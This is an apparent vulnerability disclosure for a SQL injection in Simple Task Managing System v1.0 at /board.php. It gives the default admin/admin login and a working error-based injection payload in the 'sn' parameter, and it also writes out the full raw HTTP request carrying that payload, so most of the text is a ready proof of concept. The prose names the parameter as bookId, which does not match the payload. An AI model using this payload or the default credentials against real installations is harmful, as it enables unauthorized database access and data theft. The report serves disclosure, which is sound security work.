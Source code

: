 # Simple Task Managing System - SQL injection

Simple Task Managing System v1.0 exists to contain a SQL injection vulnerability via the bookId parameter at /board.php

username:admin password:admin ----> {ip}/board.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/board.php has SQL injection

Payload: http://localhost:80/cve/Task Managing System in PHP/board.php?sn=admin1' AND ROW(6066,2526)>(SELECT COUNT(*),CONCAT(0x7171787a71,(SELECT (ELT(6066=6066,1))),0x71787a6a71,FLOOR(RAND(0)*2))x FROM (SELECT 5176 UNION SELECT 2058 UNION SELECT 2430 UNION SELECT 5444)a GROUP BY x) AND 'MkOa'='MkOa

SQL injection because $shortName can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/Snipaste_2022-09-01_11-06-50.png)

```sql
GET http://localhost:80/cve/Task Managing System in PHP/board.php?sn=admin1' AND ROW(6066,2526)>(SELECT COUNT(*),CONCAT(0x7171787a71,(SELECT (ELT(6066=6066,1))),0x71787a6a71,FLOOR(RAND(0)*2))x FROM (SELECT 5176 UNION SELECT 2058 UNION SELECT 2430 UNION SELECT 5444)a GROUP BY x) AND 'MkOa'='MkOa HTTP/1.1
Host: localhost
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=34a9idaoj7m7miduqt31hupisn
Connection: close
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/Snipaste_2022-09-01_11-09-40.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/Snipaste_2022-09-01_11-07-15.png)